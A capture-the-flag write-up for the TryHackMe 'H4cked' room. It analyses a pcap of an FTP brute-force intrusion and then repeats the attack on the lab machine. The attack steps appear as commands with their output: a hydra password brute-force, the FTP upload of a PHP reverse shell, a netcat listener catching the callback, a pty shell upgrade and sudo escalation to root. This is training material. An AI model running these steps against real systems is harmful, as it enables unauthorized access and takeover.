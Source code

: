 ```yaml
---
title: "H4cked"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="hacked.png" width=200 alt="hacked">

Hey! how are yo doing? 

We are usually on the red side, trying to hack machines

But today we doing blue stuff

Investigating a pcap file to catch a hacker

## Analysis

we open `Capture.pcapng` with your favorite tool

I go with `wireshark`

Just read a bit and you already understand someone is trying to `ftp` as `jenny`

Might be bruteforcing with `hydra`

Follow the tcp stream on successful login to get the password `password123`

He was in `/var/www/html` then made a http get request for `/shell.php`

the file can be read after `ftp-data` filter is applied

obviously its from [pentestmonkeys](http://pentestmonkey.net/tools/php-reverse-shell)! 

I dumped the file content as printable text in a txt file for readabilty

Now its time to follow the tcp stream again and get his actions inside `wir3`

he spawnned a more comfortable shell with the good ol'

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

then used `whoami` then `sudo su` like a boss 

jenny got too many privileges for someone using such a weak password

My man cloned a badass backdoor from project [Reptile](git clone https://github.com/f0rb1dd3n/Reptile.git)

Just read about it!

Now its time to do better than the attacker

## Getting Access

he obviously changed the password so we can't just ssh as jenny (duh)

so we have to re-do everything

we can directly get into the hydra cracking

```
└──╼ $hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.100.132/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-01 17:33:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.100.132:21/
[STATUS] 93.00 tries/min, 93 tries in 00:01h, 14344339 to do in 2570:41h, 16 active
[21][ftp] host: 10.10.100.132   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-01 17:34:51

```

He is doing better than jenny at least

```
└──╼ $ftp 10.10.100.132
Connected to 10.10.100.132.
220 Hello FTP World!
Name (10.10.100.132:nair0lf32): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

```

Updated his own shell to serve us as `shell2.php`

```

ftp> put /h4cked/shell2.php shell2.php
local: /h4cked/shell2.php remote: shell2.php
227 Entering Passive Mode (10,10,100,132,140,101)
150 Ok to send data.
226 Transfer complete.
5524 bytes sent in 0.00 secs (65.0382 MB/s)
ftp> ls
227 Entering Passive Mode (10,10,100,132,170,74)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
-rw-------    1 1000     1000         5524 Feb 01 17:12 shell2.php
ftp> chmod 777 shell2.php
200 SITE CHMOD command ok.
```

We are in too! Now Get that TTY!

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 43016
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 17:15:04 up 39 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$

```

## privilege escalation

Now we do the good ol' switcheroo

```
www-data@wir3:/home/jenny$ su jenny
su jenny
Password: 987654321

jenny@wir3:~$ sudo su
sudo su
[sudo] password for jenny: 987654321

root@wir3:/home/jenny# 


```

Get the flag

```
root@wir3:/home/jenny# cd /root
cd /root
root@wir3:~# ls
ls
Reptile
root@wir3:~# cd Reptile
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
straight_to_jail_intruder
```

Nice,simple, easy room!
